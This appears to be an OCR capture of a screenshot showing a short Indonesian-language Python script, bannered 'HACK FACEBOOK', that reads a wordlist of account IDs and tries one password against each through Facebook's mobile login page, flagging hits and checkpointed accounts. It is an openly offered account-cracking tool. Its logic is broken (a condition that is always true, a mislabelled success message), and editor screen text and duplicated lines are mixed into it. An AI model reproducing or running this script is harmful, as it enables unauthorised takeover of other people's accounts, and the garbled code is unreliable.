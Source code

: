 # ReinMbf

     

import requests
import os

h = '\033[92'
m = '\033[91m'
k = '\033[93m'
x = '\033[0m'



def login(id,pw):
      data = {'email':id,'pass':pw}
      r = requests.post('https://mbasic.facebook.com/login',data=data)
      if 'm_ses' in r.url or 'save-device':
            print(f'{id} > {h}llogin gagal{x}')
      elif 'check point' in r.url:
            print(f'{id} > {k}akun checkpoint{x}')
      else:
            print(f'{id} > {m}login gagal{x}')


def lis(filenya,pw):
      f = open(filenya,'r').readlines()
      print(f'berhasil menemukan {len(f)} password')
      print(f'dalam proses membuka password')
      for i in f:
          login(i.strip(),pw)



if __name__=='__main__':
      os.system('clear')
      print(h+'HACK FACEBOOK'.center(40))
      print(m+'by ReinXceed'.center(40))
      f = input('worldlist: ' )
                              [ Read 37 lines ]
^G Get Help    ^O Write Out   ^W Where Is    ^K Cut Text    ^J Justify
^X Exit        ^R Read File   ^\ Replace     ^U Pasteif __name__=='__main__':
      f = input('worldlist: ' )
      pw = input('password: ')

